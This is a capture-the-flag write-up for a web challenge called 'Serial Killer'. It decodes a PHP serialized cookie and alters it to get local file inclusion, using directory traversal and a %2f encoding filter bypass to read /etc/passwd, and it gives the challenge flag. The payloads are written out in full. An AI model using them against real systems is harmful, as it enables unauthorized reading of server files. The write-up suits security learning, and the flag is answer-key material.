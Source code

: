 # Serial Killer

## Description

I'm trying a new way to display files on my website. Can you try to break it for me?

Note: The flag is located in the /etc/passwd file.

## Solution

There is a cookie set when the page is loaded. When that cookie is decoded there is an LFI in that serialized cookie.
```
Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30%3D
O:7:"GetPage":1:{s:4:"file";s:10:"index.html";}
```

We can use directory taversal to get back to root and then get `/etc/passwd`.
```
O:7:"GetPage":1:{s:4:"file";s:19:"../../../etc/passwd";}
```

Trying this causes a filter to trigger. To bypass the filter the `/` characters can be encoded to `%2f`.
```
O:7:"GetPage":1:{s:4:"file";s:25:"..%2f..%2f..%2fetc/passwd";}
```

This works to get access to `/etc/passwd` and the flag inside.

Flag: `gigem{1nt3r3sting_LFI_vuln}`
